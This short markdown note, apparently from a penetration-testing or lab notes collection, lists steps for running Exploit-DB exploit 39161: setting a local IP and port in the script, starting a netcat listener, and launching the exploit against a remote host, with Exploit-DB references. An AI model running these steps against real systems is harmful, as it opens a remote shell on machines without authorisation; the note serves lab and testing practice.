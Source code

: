 ### Prepare file 39161.py and insert
```
ip_addr = "<lhost>" #local IP address
local_port = "<lport>" # Local Port number
```

### Start listener
```
nc -lvp <lport>
```

### Exploit (it might be necessary to execute the exploit multiple times)
```
python3 39161.py <rhost> <rport>
```

### References
https://www.exploit-db.com/exploits/34668  
https://www.exploit-db.com/exploits/39161  
https://www.exploit-db.com/exploits/49125  

